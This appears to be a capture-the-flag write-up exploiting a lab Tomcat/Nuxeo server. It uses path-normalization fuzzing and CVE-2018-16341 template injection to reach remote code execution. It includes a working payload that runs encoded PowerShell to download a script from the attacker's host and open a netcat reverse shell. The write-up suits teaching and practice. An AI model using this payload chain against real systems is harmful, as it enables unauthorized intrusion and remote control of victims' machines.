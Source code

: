 **I discover a JSESSIONID, which is related to Tomcat. It suggests there might be a reverse proxy with Nginx in the backgraund.
To abuse the reverse proxy I can use the "Breaking Parser Logic" payload (..;)**
https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf

**But first I'm going to fuzz for .jsp files**

```
❯ wfuzz -c --hc=404,502 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.11.115/maintenance/FUZZ.jsp
http://10.10.11.115/maintenance/index.jsp
```

**Now I'll check with a payload using the technique in the "Breaking Parser Logic" with wfuzz**
```
─❯ wfuzz -c --hc=404,502 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt "http://10.10.11.115/maintenance/..;/FUZZ.jsp"; 
```

**I find a  "login" page, so I check that path on the website:**

```
http://10.10.11.115/maintenance/..;/login.jsp
```

**It's a Nuxeo login panel, I search for a exploit for Nuxeo and find CVE-2018-16341, which is a vulnerability allowing remote code execution without authentication using Server Side Template Injection (SSTI)** https://github.com/mpgn/CVE-2018-16341

**I use payloads from "payloadsallthethings" to check for suitable payloads:** https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#expression-language-el---code-execution

**Remote code execution and gain access to the system using Invoke-PowershellTCP.ps1**https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

``` bash
#On my machine, use powershell to download and execute the script On the victim machine
IEX(New-Object Net.WebClient).downloadString('10.10.14.4/invoke-powershell.ps1')

# To make this works, I need to encode it in base64
❯ echo "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3/IP.ps1')" | iconv -t utf-16le | base64 -w 0; echo
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADMALwBJAFAALgBwAHMAMQAnACkACgA=

#put the encode string in the payload and execute
http://10.10.11.115/maintenance/..;/login.jsp/hola${"".getClass().forName("java.lang.Runtime").getMethods()[6].invoke("".getClass().forName("java.lang.Runtime")).exec("powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADMALwBJAFAALgBwAHMAMQAnACkACgA=")}.xhtml

#On my machine use python to serve as a server
sudo python -m http.server 80

# use netcat to gain the reverse shell
rlwrap nc -nlvp 1234
```

